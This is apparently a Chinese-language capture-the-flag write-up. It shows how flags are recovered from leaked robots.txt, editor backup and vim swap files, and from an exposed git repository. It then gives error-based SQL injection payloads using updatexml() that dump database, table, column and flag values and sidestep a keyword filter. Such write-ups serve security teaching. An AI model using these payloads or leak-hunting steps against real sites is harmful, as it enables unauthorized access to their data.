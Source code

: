 # #0x01 [信息搜集]

## 常见的搜集

敏感文件泄露，web中常见的敏感文件包括：

> 
- rbots.txt
- readme.txt/md
- www.zip/rar/tar：网站备份文件
- 中间件的banner信息，暴露中间件版本或框架版本
- gedit备份文件：后缀为~
- vim备份文件: .文件名.swp
- 未完待续。。。。

本题：
解题
发现robots,得到提示flag1_is_her3_fun.txt访问该文件，得到FALG上半部分：
![](pic/sf1.png)

发现index.php~，得到第二部部分flag: s_v3ry_im
![](pic/sf2.png)

发现.index.php.swp，下载后通过命令还原
![](pic/sf3.png)

```shell
touch index.php --先创建index.php文件
vim -r index.php --还原文件
```
![](pic/sf4.png)

## 粗心的小李

根据题目提示，是一道git泄露题，直接上工具GitHacker下载git文件

![](pic/git_01.png)
![](pic/git_02.png)

访问index.html，得到flag
![](pic/git_03.png)


# 0X02 [SQL注入]

## SQL注入-2
根据提示，访问login.php，并带上参数?tips=1 观察SQL报错信息，
> name=test'&pass=123

![](pic/sql2_1.png)

> name=test'#&pass=123

SQL不报错了，回显正常的校验信息，所以这题可以使用SQL 报错信息进行注入,使用`updatexml()`函数进行注入
#### 原理:
> 当参数2不符合/xxx/xxx/xxx的格式时，函数会报错，并将值显示在报错信息中,所以可以构建如下paylod:
> 
``` sql
(updatexml(‘anything’,concat(‘~’,(select database())),’anything’))
```

``` 
--爆库名
name=test' and (updatexml('anything',concat('~',(select database())),'anything'))# &pass=1

--爆表
name=test' and (updatexml('anything',concat('~',(selselectect group_concat(table_name) from information_schema.tables where table_schema='note')),'anything'))# &pass=1 

--爆列
 name=test' and (updatexml('anything',concat('~',(selselectect group_concat(column_name) from information_schema.columns  where table_schema='note' and table_name='fl4g')),'anything'))# &pass=1

--爆值
name=test' and (updatexml('anything',concat('~',(selselectect flag from fl4g)),'anything'))# &pass=1 
  ```
  
![](pic/sql2_2.png)
![](pic/sql2_3.png)